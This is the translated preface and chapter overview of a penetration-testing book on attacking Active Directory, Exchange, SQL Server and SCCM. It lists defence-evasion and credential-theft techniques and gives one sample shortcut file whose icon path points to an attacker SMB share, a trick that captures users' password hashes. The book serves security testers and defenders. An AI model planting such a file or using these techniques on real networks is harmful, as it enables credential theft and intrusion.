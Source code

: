 # 前言

几乎每天我们都会听到新的数据泄露、数据外泄或勒索软件攻击的消息。如今，网络犯罪已成为一个庞大的产业，并且不断寻求进步。这不再是一个人的表演；网络犯罪分子有自己的方法论、工具和专业人员。防御的方式是理解他们是如何攻击的、他们的战术以及技术。

我们将采用这种方法来对抗最受欢迎的软件供应商——微软的各种产品。本书专注于基于 Windows 的基础设施，因为对于大多数公司而言，企业内部基础设施仍然是一个重要领域。在本书中，我将带领你通过对**Active Directory**（*AD*）、Active Directory 证书服务、Microsoft Exchange 服务器、Microsoft SQL 服务器以及**系统中心配置管理器**（*SCCM*）的攻击杀链过程。在这个过程中，你将接触到已知的战术和技术，并进行大量的实践练习。

到本书结束时，你将能够对基于 Windows 的基础设施进行全面的实际安全评估。此外，你还将获得关于如何检测对手活动的建议和修复建议。

# 本书适用人群

本书确实是一本全方位的指南，专为从事 Windows 基础设施工作，特别是 AD 的安全专业人员编写。渗透测试人员和红队操作员将找到他们在实际评估中可能遇到的攻击场景。安全和 IT 工程师、蓝队成员以及事件响应人员将从检测和修复指南中受益。为了最大限度地利用本书，你应该具备 Windows 服务和 AD 的基础知识。

# 本书内容

*第一章*，*准备实验室和攻击 Exchange 服务器*，概述了攻击杀链，展示了如何部署实验室环境，并专注于通过实际示例演示 Exchange 服务器的攻击面。

*第二章*，*防御规避*，教授你如何规避**恶意软件扫描接口**（**AMSI**）和 AppLocker、PowerShell 增强日志记录、Sysmon 以及**Windows 事件跟踪**（**ETW**）。

*第三章*，*域侦察与发现*，在这一章你将学习如何在域中执行侦察、如何融入环境流量，以及深入了解像 BloodHound 和 Microsoft **高级威胁分析**（**ATA**）等工具的内部工作。

*第四章*，*域中的凭证访问*，介绍了通过捕获哈希值、强制认证、对 Kerberos 进行“烘烤”、如果**本地管理员密码解决方案**（**LAPS**）配置错误时读取明文密码，以及通过 DCSync 收集 gMSA 账户或整个域的哈希值等方式获取域环境中的凭证。

*第五章*，*域内和跨森林的横向移动*，展示了对手如何通过滥用不同类型的委派、传递不同类型的凭证材料、转发捕获的哈希值以及向其他森林移动来在环境中横向移动。

*第六章*，*域权限提升*，我们将重点讨论通过滥用配置错误的**访问控制列表**（**ACL**）、**组策略对象**（**GPO**）和特殊内建组来提升域中的权限，以及如何从子域转移到父域。

*第七章*，*域级持久化*，展示了通过伪造票证和操作 ACL 和对象，以及通过添加骨架密钥、恶意 SSP、注册表后门等手段，在域控制器上实现持久化的技术。

*第八章*，*滥用 Active Directory 证书服务*，涵盖了微软实施的**公钥基础设施**（**PKI**）的基础知识，以及盗取证书、在域中提升权限并实现域级持久化的方法。

*第九章*，*攻破 Microsoft SQL Server*，我们将重点讨论如何攻击 SQL Server，包括枚举、权限提升、横向移动和持久化。

*第十章*，*接管 WSUS 和 SCCM*，提供了 IT 支持管理软件的概述，并介绍了滥用其功能的方法，最终实现对整个环境的完全接管。

# 为了充分利用本书

| **书中涵盖的** **软件/硬件** | **操作系统** **要求** |
| --- | --- |
| Windows Active Directory | Linux 主机 |
| Windows 服务 – WSUS 和 AD CS | Kali 虚拟机 |
| Exchange 服务器 |  |
| SQL Server |  |
| SCCM |  |

# 使用的约定

本书中使用了若干文本约定。

**文本中的代码**：表示文本中的代码词、数据库表名、文件夹名称、文件名、文件扩展名、路径名、虚拟 URL、用户输入和 Twitter 用户名。以下是一个示例：“**MailSniper** 计算身份验证尝试响应之间的时间差。”

任何命令行输入或输出如下所示：

```
[InternetShortcut]
URL=any
WorkingDirectory=any
IconFile=\\192.168.56.100\%USERNAME%.icon
IconIndex=1
```

**粗体**：表示新术语、重要词汇或您在屏幕上看到的词。例如，菜单或对话框中的词语通常以**粗体**显示。以下是一个示例：“我们将讨论攻击检测及可能的防范措施，并介绍进攻性**操作** **安全**（**OpSec**）。”

提示或重要注意事项

显示如下。

# 联系我们

我们始终欢迎读者的反馈。

**一般反馈**：如果你对本书的任何部分有疑问，请通过邮件联系我们，邮箱地址是 customercare@packtpub.com，并在邮件主题中提到书名。

**勘误表**：尽管我们已尽最大努力确保内容的准确性，但难免会有错误。如果你在本书中发现任何错误，我们将非常感激你向我们报告。请访问[www.packtpub.com/support/errata](http://www.packtpub.com/support/errata)并填写表单。

**盗版**：如果你在互联网上发现我们作品的任何非法副本，请提供其网址或网站名称。请通过版权@packtpub.com 与我们联系，附上该资料的链接。

**如果你有兴趣成为作者**：如果你在某个领域有专长，并且有兴趣撰写或参与编写一本书，请访问[authors.packtpub.com](http://authors.packtpub.com)。

# 分享你的想法

一旦你阅读了*《渗透测试：Active Directory 和基于 Windows 的基础设施》*，我们非常希望听到你的反馈！请[点击这里直接进入 Amazon 的评论页面](https://packt.link/r/1804611360)，分享你的看法。

你的评论对我们和技术社区来说都非常重要，将帮助我们确保提供卓越质量的内容。

# 下载本书的免费 PDF 副本

感谢购买本书！

你喜欢在旅途中阅读，但又不能随时携带纸质书籍吗？

你的电子书购买是否与你选择的设备不兼容？

不用担心，现在购买每本 Packt 书籍，你都会免费获得该书的无 DRM PDF 版本。

随时随地、在任何设备上阅读。直接从你最喜欢的技术书籍中搜索、复制并粘贴代码到你的应用程序中。

优惠活动不仅仅是这样，你还可以获得独家折扣、时事通讯以及每天送到邮箱的精彩免费内容

按照以下简单步骤，享受相关福利：

1.  扫描二维码或访问以下链接

![](img/B18964_QR_Free_PDF.jpg)

[`packt.link/free-ebook/9781804611364`](https://packt.link/free-ebook/9781804611364)

1.  提交你的购买证明

1.  就是这样！我们会直接将你的免费 PDF 和其他福利发送到你的邮箱。
